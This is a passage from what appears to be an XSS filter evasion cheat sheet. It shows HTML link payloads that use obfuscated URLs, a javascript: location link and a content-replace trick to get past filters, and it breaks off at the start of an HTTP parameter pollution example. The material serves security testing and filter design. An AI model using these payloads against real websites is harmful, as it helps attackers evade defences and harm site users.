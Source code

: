 ### Google "feeling lucky" part 3

This uses a malformed URL that appears to work in Firefox and Opera only, because if their implementation of the "feeling lucky" function. Like all of the above it requires that you are \#1 in Google for the keyword in question (in this case "google"):

```html
<a href="http://google:ha.ckers.org">XSS</a>
```

### Removing CNAMEs

When combined with the above URL, removing `www.` will save an additional 4 bytes for a total byte savings of 9 for servers that have this set up properly):

```html
<a href="http://google.com/">XSS</a>
```

Extra dot for absolute DNS:

```html
<a href="http://www.google.com./">XSS</a>
```

### JavaScript Link Location

```html
<a href="javascript:document.location='http://www.google.com/'">XSS</a>
```

### Content Replace as Attack Vector

Assuming `http://www.google.com/` is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: `java&\#x09;script:` was converted into `java script:`, which renders in IE, Netscape 8.1+ in secure site mode and Opera):

```html
<a href="http://www.google.com/ogle.com/">XSS</a>
```

## Assisting XSS with HTTP Parameter Pollution

Assume a content sharing flow on a web site is implemented as below. There is a "Content" page which includes some content provided by users and this page also includes a link to "Share" page which enables a user choose their favorite social sharing platform to share it on. Developers HTML encoded the "title" parameter in the "Content" page to prevent against XSS but for some reasons they didn't URL encoded this parameter to prevent from HTTP Parameter Pollution. Finally they decide that since content_type's value is a constant and will always be integer, they didn't encode or validate the content_type in the "Share" page.

### Content Page Source Code

```html
`a href="/Share?content_type=1&title=<%=Encode.forHtmlAttribute(untrusted content title)%>">Share</a>
```
